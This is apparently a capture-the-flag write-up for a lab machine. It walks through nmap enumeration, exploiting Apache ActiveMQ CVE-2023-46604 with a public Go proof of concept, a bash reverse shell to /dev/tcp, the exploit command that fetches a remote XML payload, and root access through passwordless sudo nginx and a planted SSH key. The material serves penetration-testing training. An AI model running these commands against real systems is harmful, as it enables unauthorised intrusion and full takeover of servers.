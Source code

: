 # Machine
![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/18c8b00e-0032-4bf8-a5ab-80c613f96fd8)
# Enumeration
We can enumerate the system without employing aggressive vectors.
## Nmap
Nmap command to scan all ports:
<br><br/>
![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/b3fa0def-55f5-474e-a25b-98a54ed7ada7)

Results:

![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/6ecff8ab-3d6f-4870-b6b5-958112c4ec7f)
<br><br/>
The scan results reveals that 9 ports are open.
Nmap scan for services and outdated versions for all open ports:

![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/09cdb396-4ab5-49fe-920d-4ac76f2e8494)
<br><br/>
Results:
<br><br/>
![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/3a00884f-344d-49c1-86b9-2c1282fffacf)
<br><br/>
The scan reveals Apache ActiveMQ version <strong>5.15.15</strong> running on TCP port 61616

Upon searching for Apache <strong>ActiveMQ version 5.15.15</strong>, it becomes apparent that it is outdated and susceptible to 
vulnerabilities that could potentially lead to Remote Code Execution (RCE).
# Apache ActiveMQ Exploitation
Searching for vulnerabilities in this version of ActiveMQ shows that it is vulnerable to a
deserialisation vulnerability labelled <a href="https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis">CVE-2023-46604</a>

Searching on Google for CVE-2023-46606 exploit github reveals <a href="https://github.com/rootsecdev/CVE-2023-46604">this link</a> which has a Proof of
Concept code for how to exploit it.

## Download and Configure
```
$ wget https://github.com/rootsecdev/CVE-2023-46604/blob/main/poc-linux.xml
$ wget https://github.com/rootsecdev/CVE-2023-46604/blob/main/main.go
```
Download files from github repository
<br><br/>
poc-linux.xml:
![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/344dab13-3c59-404d-93ab-d0bc3af3036e)
<br><br/>
The poc-linux.xml file needs to be edited to specify the target IP address and port.
```
bash -i >& /dev/tcp/10.10.14.145/9001 0>&1
```
The code in the poc-linux.xml file for the backdoor is an HTML entity-encoded version of the following code.
## Running exploit
Our exploit written in go language so we run with this code
```
$ go run main.go
```

![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/b6f289d8-c346-4931-95a4-193c6867a3d6)

### With using program manual ###

1. We need to open a Python web server: <br>![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/c21ce5de-e7f3-47eb-b358-049b7e9da051)<br/>
2. We also need to listen with Netcat for a reverse shell: <br>![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/800601ac-7b09-4d1d-b13a-4bc64d8652f9)<br/>


### <strong>Now we can run our exploit!</strong>


```
$ go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.145:8000/poc-linux.xml 
```

Result:

![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/d25738b5-5f97-460b-95f4-4b29ef06d42b)

The malicious code has been sent to the server, and we are waiting to connect back.
### Getting Shell
![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/37699978-d2a0-46f9-a7c6-12731e272014)

Finally, we have our shell.

## Privilege Escalation
Now we are a user in the box, but we have to be root!!

![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/9ebc7678-f0be-4981-baf2-dbabc704178a)

The following Python command is used to spawn a new interactive shell:
```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```
And press CTRL+Z to bg the session

```
$ stty raw -echo; fg
```
<strong>We set our shell so now we can start the privesc !</strong>

```
$ sudo -l
```

Result:

![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/9e24f9d1-22cb-4036-8724-210694c68b05)

Here, we observe that Nginx can be utilized with sudo without requiring a password.

## Nginx configuration
Let's create an Nginx config file to enable file uploads to any desired location.

```
$ cd /dev/shm
```

To create our configuration file, relocate it to /dev/shm/ in order to minimize attention.

![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/2b3d5849-99bb-4d96-8fbb-9969d134fcb3)

This config file provide us to upload files on server where we want.

![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/5893057a-2ce0-4d20-816f-18caddbedee0)

Lets set our configure file.

![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/577e52b3-6009-4b08-841f-b2a7d8402617)

Here we can see it our port on listening from any ip.

## Root Access via SSH

First, create our own SSH key named "broker".

![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/e67f0086-3cad-4779-99ec-91dab9da097a)

Transfer the SSH key to the target system.

![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/2bce70d4-b3f1-403a-8641-fbfae867f569)

Connect with ssh-key.

![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/9c31efa4-c9c1-4541-b2b6-7c7289cf7a46)



## Getting root and Flag
![image](https://github.com/AzizhanKaya/projelerim/assets/149832485/a3170d07-059b-4f06-b528-4b5fd4f6a927)

### Here is the flag!!






